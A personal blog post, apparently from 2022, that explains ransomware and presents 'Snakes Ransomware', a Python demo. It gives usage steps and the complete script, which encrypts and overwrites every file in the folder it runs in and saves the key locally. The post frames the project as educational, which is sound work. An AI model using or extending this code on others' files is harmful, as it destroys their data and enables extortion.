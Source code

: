 ```yaml
---
author: Krishna Chaitanya
pubDatetime: 2022-05-14T15:22:00Z
title: Understanding Ransomware and a Dive into Snakes Ransomware
slug: Understanding-Ransomware-and-a-Dive-into-Snakes-Ransomware
featured: true
draft: false
tags:
  - docs
  - ransomware
  - project
  - cyberattack
  - snakes ransomware
description:
  Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.
---
```


## What is Ransomware?

Ransomware is a type of malicious software designed to block access to a computer system or encrypt its data until a sum of money, or ransom, is paid. It’s a form of cyber extortion that has become increasingly prevalent, targeting individuals, businesses, and even government organizations. Once infected, victims are often left with a grim choice: pay the ransom to regain access to their files or risk losing them forever.

### How Ransomware Works

Ransomware typically spreads through phishing emails, malicious websites, or software vulnerabilities. When the malware is executed, it begins encrypting files on the victim's system, rendering them inaccessible. A ransom note is then displayed, demanding payment in exchange for the decryption key.

The use of ransomware has evolved over the years, with cybercriminals employing more sophisticated techniques to avoid detection and increase their chances of receiving payment. Unfortunately, even after paying the ransom, there’s no guarantee that the files will be restored.

## Introduction to Snakes Ransomware

Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.

### Features of Snakes Ransomware

- **File Encryption:** Encrypts all files in a specified folder.
- **Key Generation:** Creates a unique key for each encryption process, which is crucial for decryption.
- **File Decryption:** Provides a way to decrypt the previously encrypted files using the generated key.

## How to Use Snakes Ransomware

### Step 1: Installation

First, ensure you have all the required dependencies installed. You can do this by running the following command in your terminal:

```bash
pip install -r requirements.txt
```

### Step 2: Encryption Process

To encrypt files within a target folder:

1. **Copy the Encryption Script:**
   - Place the `snakes-encrypt.py` file into the folder you want to encrypt.

2. **Execute the Script:**
   - Open a terminal and navigate to the folder containing the script.
   - Run the following command:
   
     ```bash
     python snakes-encrypt.py
     ```

3. **Encryption Completion:**
   - After execution, all files in the folder will be encrypted, and a key file named `snakes-key.key` will be generated. This key is essential for decrypting the files.

### Step 3: Decryption Process

To decrypt the files:

1. **Copy the Decryption Script:**
   - Place the `snakes-decrypt.py` file in the folder containing the encrypted files.

2. **Add the Encryption Key:**
   - Ensure the `snakes-key.key` file is in the same directory as the decryption script.

3. **Execute the Decryption Script:**
   - Run the following command in your terminal:
   
     ```bash
     python snakes-decrypt.py
     ```

4. **Decryption Completion:**
   - The encrypted files will be restored to their original state.

## How Snakes Ransomware Was Created

Creating Snakes Ransomware involved a deep dive into cryptography and file handling in Python. The key aspects of the program include:


### **Encryption Script Explanation**

This script is designed to encrypt all files in the current directory, except for the encryption script itself and the key file.

#### **1. Importing Necessary Libraries:**
```python
import os
from cryptography.fernet import Fernet
```
- `os`: Used to interact with the operating system for file operations.
- `cryptography.fernet`: A symmetric encryption method from the `cryptography` library, which is used to encrypt and decrypt files.

#### **2. Listing Files to Encrypt:**
```python
files = []

for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```
- The script lists all files in the current directory.
- It excludes the encryption script (`snakes-encrypt.py`) and the key file (`snakes-key.key`) to prevent them from being encrypted.

#### **3. Generating the Encryption Key:**
```python
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)
```
- A new encryption key is generated using `Fernet.generate_key()`.
- This key is saved in a file called `snakes-key.key`. This key is essential for decrypting the files later.

#### **4. Encrypting the Files:**
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)
```
- The script loops through each file in the `files` list.
- It reads the contents of each file in binary mode (`"rb"`).
- The contents are encrypted using the generated key.
- The encrypted contents are then written back to the original file in binary mode (`"wb"`), replacing the original contents with the encrypted data.

### **Complete Encryption Script**

Here's the complete encryption script with comments for clarity:

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# List of files to be encrypted
files = []

# Identify files to encrypt, excluding the script and key files
for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print("Files to be encrypted:", files)

# Generate encryption key and save it to a file
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("Encryption completed.")
```


## Conclusion

Ransomware remains one of the most significant threats in cybersecurity today. By understanding how it works through projects like Snakes Ransomware, we can better prepare ourselves to defend against such attacks. Remember, the Snakes Ransomware project is strictly for educational purposes, and I strongly discourage any malicious use of this knowledge.

For more insights into cybersecurity and programming, stay tuned to Krishna-Blogs!

---
[Github Repo](https://github.com/Snakes-n-Networks/Snakes-Ransomware.git) -- For referance

Contact: [P-mail](mailto:ekrishnachaitanya2004@gmail.com) 'or'
        [Official-mail](mailto:snakesnnetworks@gmail.com)

